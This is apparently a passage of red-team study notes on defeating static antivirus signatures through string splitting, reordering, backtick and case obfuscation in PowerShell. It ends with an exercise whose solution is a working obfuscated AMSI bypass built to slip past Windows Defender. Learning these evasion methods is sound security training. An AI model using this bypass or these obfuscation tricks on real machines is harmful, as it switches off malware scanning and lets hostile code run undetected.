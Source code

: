 ```python
A = "Hello"
B = "Pro"
C = A + B
print(C) # Hello Pro
```

In the research paper this is categorized in **data splitting/merging**, to a human this is obvious but to many **static analysis tools** or **antivirus engines**, this breaks the known signature because it doesn’t exactly match a static string like `"powershell"` in memory or in the binary.

Say a static signature:

```python
A = "Hello Pro"
```

This gets detected

```Python
amazing_world_of_gumball = "Hello Pro"
```

This does not:

```C
amazing_world_of_gumball = "Hello"
x = "Pro"
```

Additionally, attackers can also use **non-interpreted characters** to disrupt static signatures, this can be used independantly or with concatenation:

| **Character  <br>** | **Purpose  <br>**                                                     | **Example**                 |
| ------------------- | --------------------------------------------------------------------- | --------------------------- |
| Breaks              | Break a single string into multiple sub strings and combine them      | `('co'+'ffe'+'e')`          |
| Reorders            | Reorder a string’s components                                         | `('{1}{0}'-f'ffee','co')`   |
| Whitespace          | Include white space that is not interpreted                           | `.( 'Ne' +'w-Ob' + 'ject')` |
| Ticks               | Include ticks that are not interpreted                                | ``d`own`LoAd`Stri`ng``      |
| Random Case         | Tokens are generally not case sensitive and can be any arbitrary case | `dOwnLoAdsTRing`            |
##### Mini Challenge
---
Obfuscate the following:

```Powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

> [!warning]- solution and must read
> The idea is to break the code into parts and testing it in a similar environment which in this case is Windows Defender.
> 
> ```powershell
> $Value="SetValue"
> [Ref].Assembly.GetType('System.Management.Automation.'+'Amsi'+'Utils').GetField('amsi'+'Init'+'Failed','No'+'nPublic,S'+'tatic').$Value($null,$true)
> ```
